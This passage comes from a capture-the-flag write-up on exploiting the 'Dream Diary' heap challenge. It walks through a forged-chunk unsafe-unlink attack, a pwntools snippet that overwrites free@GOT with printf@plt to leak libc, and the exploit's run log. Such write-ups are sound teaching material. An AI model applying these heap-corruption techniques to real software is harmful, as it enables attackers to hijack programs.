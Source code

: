 ```asm
gef➤  x/10xg 0x6020c0
0x6020c0:	0x0000000002236010	0x00000000022360a0
0x6020d0:	0x0000000002236130	0x00000000006020c0
```

Now as we see the global array having a pointer to itself on index 3, this means that the chunk 3 is now pointing to the global array itself, let's see what happened under the hood when we did `free(4)`, I will break it down in following steps:-

* There was a forged free'd chunk with the `fd` and `bk` pointing to the global array.
* When the `free(4)` is called and the chunk `4` was initally freed and the forged chunk was coalesced with the chunk `4`.
* Once coalesced, the unlink is triggered resulting in the 3rd chunk pointer in the global array being overwritten with the address we wanted it to.

Now, we have the control over the chunk `3`, we can edit it and get the other pointer overwritten too, if we could overwrite one of the entry with any GOT address, we can get the control over the binary.

```py
log.info("Changing freegot to print@plt for LIBC Leak")
edit(3, p64(elf.got("free")))
edit(0, p64(elf.plt("printf")))
```

So, from the code above you can see, first we overwrite the pointer returned by the chunk `3` which would be the global array itself, then we request for the first chunk via the `edit` function and since the 0th chunk address point to the `free@got`, we get the pointer of `free@GOT` and then it is being overwritten with the `printf@plt`.


```asm
0  [13:09:56] vagrant@oracle(oracle) HackTheBox> python3 chapter1.py 
[+] Starting program './chapter1': PID 1985
[*] Analyzing /media/sf_Pwning/HackTheBox/chapter1
[*] Analyzing /home/vagrant/tools/LibcSearcher/libc-database/db/libc6_2.23-0ubuntu10_amd64.so
[*] Created 5 chunks of size: 0x88
[*] Preparing a fake chunk...
[*] Fake chunk:
    00000000:  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
    00000010:  c0 20 60 00 00 00 00 00  c8 20 60 00 00 00 00 00  |. `...... `.....|
    00000020:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000030:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000040:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000050:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000060:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000070:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000080:  80 00 00 00 00 00 00 00  90                       |.........|
[*] Editing chunk 3 with a fakr chunk
[*] Triggering Unlink
[*] Changing freegot to print@plt for LIBC Leak
[*] Switching to interactive mode
Done!

+------------------------------+
|         Dream Diary          |
+------------------------------+
| [1] Allocate                 |
| [2] Edit                     |
| [3] Delete                   |
| [4] Exit                     |
+------------------------------+
>> Invalid choice!

+------------------------------+
|         Dream Diary          |
+------------------------------+
```